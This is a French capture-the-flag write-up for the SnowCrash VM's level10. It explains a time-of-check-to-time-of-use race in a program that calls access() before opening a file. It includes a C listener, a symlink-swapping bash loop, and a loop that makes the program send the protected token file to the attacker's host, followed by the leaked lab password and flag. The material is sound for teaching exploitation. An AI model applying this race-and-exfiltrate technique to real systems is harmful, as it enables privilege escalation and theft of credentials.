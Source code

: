 # Level10 - Time of Check to Time of Update Race
Pour résoudre le level10, on a un fichier level10 et un fichier token. level10 utilise un socket pour transmettre le contenu d'un fichier vers le port 6969 de l'IP indiquée en paramètres.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

Pour que l'on puisse exploiter ce programme, on va avoir besoin de créer un programme serveur qui va écouter sur le port 6969 de notre VM de travail, et qui va récupérer la data qu'envoie le client depuis la VM SnowCrash.

```
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdlib.h>
#include <unistd.h> /* close */
#include <netdb.h> /* gethostbyname */
#include <errno.h>
#include <stdio.h>

#define INVALID_SOCKET -1
#define SOCKET_ERROR -1
#define closesocket(s) close(s)
#define PORT 6969

typedef int SOCKET;
typedef struct sockaddr_in SOCKADDR_IN;
typedef struct sockaddr SOCKADDR;
typedef struct in_addr IN_ADDR;

int main ()
{
        char buff[2048];
        //Creation du socket
        SOCKET ssocket = socket(AF_INET, SOCK_STREAM, 0);
        if (ssocket == INVALID_SOCKET)
        {
                perror("socket()");
                exit(errno);
        }

        //Creation de l'interface d'ecoute du socket
        SOCKADDR_IN sin = { 0 };

        sin.sin_addr.s_addr = htonl(INADDR_ANY);
        sin.sin_family = AF_INET;
        sin.sin_port = htons(PORT);

        if (bind(ssocket, (SOCKADDR *)&sin, sizeof(sin)) == SOCKET_ERROR)
        {
                perror("bind()");
                exit(errno);
        }

        //Linitation du nombre de connections
        if (listen(ssocket, 5) == SOCKET_ERROR)
        {
                perror("listen()");
                exit(errno);
        }


        SOCKET client_socket;
        while(1)
        {
                SOCKADDR_IN client_sin = { 0 };
                socklen_t clientLength = sizeof(client_sin);
                client_socket = accept(ssocket, (SOCKADDR *)&client_sin, &clientLength);
                if (client_socket == INVALID_SOCKET)
                {
                        perror("accept()");
                        exit(errno);
                }

                //Reception des datas
                int n = 0;
                bzero((void*)buff, sizeof(buff));
                while ((n = recv(client_socket, buff, sizeof(buff) - 2, 0) > 0))
                {
                        printf("%s\0\n", buff);
                        bzero((void*)buff, sizeof(buff));
                }
        }
        closesocket(ssocket);
        closesocket(client_socket);
}
```

On essaie d'envoyer un fichier simple avec `level10`, on reçoit bien son contenu sur notre serveur.
Malheureusement, nous n'avons pas les droits sur token, et une vérification de ces derniers semblent etre effectuée avant l'envoi du fichier.

```
-- COTÉ CLIENT --

level10@SnowCrash:~$ ./level10 /tmp/toto 192.168.56.106
Connecting to 192.168.56.106:6969 .. Connected!
Sending file .. wrote file!

level10@SnowCrash:~$ ./level10 token 192.168.56.106
You don't have access to token

-- COTÉ SERVEUR --

.*( )*.
toto
```

En regardant les `strings` du programme, on s'aperçoit que ce dernier utilise la fonction `access`. Un tour sur le man et on peut y lire:
> Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

On est donc face à un cas de `Time of Check to Time of Update Race`, c'est à dire qu'entre le moment où l'on va vérifier si on a accès au fichier qu'on tente d'envoyer et le moment où on va l'ouvrir pour récupérer son contenu, il faut pourvoir tromper le programme pour lui faire ouvrir notre fichier `token`.

#### Pour cela, on crée deux scripts:

Le premier va venir créer un lien symbolique vers un fichier auquel on a accès, puis va supprimer ce lien et le remplacer par un lien vers notre token. Les deux liens auront le même nom et le même path, ce qui fera croire au programme qu'il ouvre bien le bon fichier.

```
#!/bin/bash
while :
do
        rm -f /tmp/faketoken
        ln /home/user/level10/level10 /tmp/faketoken
        rm -f /tmp/faketoken
        ln /home/user/level10/token /tmp/faketoken
done
```

Le deuxième va simplement envoyer en boucle notre lien au programme `level10`
```
#!/bin/bash
while :
do
/home/user/level10/level10 /tmp/faketoken 192.168.56.106
done
```

On lance notre serveur, et on exécute les deux scripts. Au bout de quelques secondes, on reçoit le contenu de `token` sur notre serveur.

```
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
...
```

On se connecte sur le compte flag10 et on obtient notre token:

```
level10@SnowCrash:/tmp$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

On a notre token: `feulo4b72j7edeahuete3no7c`

